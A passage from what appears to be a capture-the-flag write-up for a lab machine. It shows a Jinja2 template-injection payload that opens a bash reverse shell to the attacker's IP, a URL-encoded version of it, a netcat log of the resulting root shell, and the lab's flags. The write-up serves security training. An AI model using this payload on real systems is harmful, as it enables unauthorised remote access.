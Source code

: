 ```
    {% if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('bash -c "bash -i >& /dev/tcp/10.10.16.86/443 0>&1"')['read']() == 'chiv' %} a {% endif %}  
```    

  

When `urlencoding` the payload and sending it in the `name` parameter it would look something like this

```
    http://10.13.37.14/profile?name={%25+if+request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('bash+-c+"bash+-i+>%26+/dev/tcp/10.10.16.86/443+0>%261"')['read']()+%3d%3d+'chiv'+%25}+a+{%25+endif+%25}  
```    


When opening it, it will redirect us to send the `message` and when sending it we receive a `revshell` as `root` although it seems that it is in a `container`, although we can see the `flag`

```
    ❯ sudo netcat -lvnp 443
    Listening on 0.0.0.0 443
    Connection received on 10.13.37.14
    root@98aa0f47eb96:/app# id
    uid=0(root) gid=0(root) groups=0(root)  
    root@98aa0f47eb96:/app# hostname -I
    172.22.0.2 
    root@98aa0f47eb96:/app# cat flag.txt 
    FARADAY{7x7_1s_n0t_@lw4ys_49}
    root@98aa0f47eb96:/app#
```    

  

  

### Time to play

#### FARADAY{d0ubl3\_@nd\_f1o@t\_be@uty}

##### Post Enumeration  

In `/app` we can see several files and directories, including the `db` directory

```
    root@98aa0f47eb96:/app# ls -l
    drwxr-xr-x 2 root root 4096 Jul 21  2021 __pycache__
    -rwxr-xr-x 1 root root 8523 Jul 21  2021 app.py
    drwxr-xr-x 2 root root 4096 Apr 21 03:25 db
    -rw-r--r-- 1 root root   30 Jul 16  2021 flag.txt
    -rw-r--r-- 1 root root  220 Jul 16  2021 requirements.txt  
    drwxr-xr-x 3 root root 4096 Jul 16  2021 static
    drwxr-xr-x 2 root root 4096 Jul 21  2021 templates
    -rw-r--r-- 1 root root   71 Jul 16  2021 wsgi.py
    root@98aa0f47eb96:/app#
 ```   

  